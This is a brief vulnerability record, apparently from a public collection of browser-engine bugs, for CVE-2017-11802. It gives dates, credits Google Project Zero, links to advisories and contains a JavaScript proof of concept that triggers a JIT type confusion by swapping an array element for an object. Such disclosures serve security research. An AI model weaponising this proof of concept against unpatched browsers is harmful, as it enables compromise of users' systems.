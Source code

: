 # CVE-2017-11802

- Report: Aug 2017
- Fix: Oct 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function main() {
    let arr = [1.1, 1.1, 1.1, 1.1, 1.1];
    function opt(f) {
        arr[0] = 1.1;
        arr[1] = 2.3023e-320 + parseInt('a'.replace('a', f));
        arr[2] = 1.1;
        arr[3] = 1.1;
    }

    let r0 = () => '0';
    for (var i = 0; i < 0x1000; i++)
        opt(r0);

    opt(() => {
        arr[0] = {};
        return '0';
    });

    print(arr[1]);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11802)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1334)
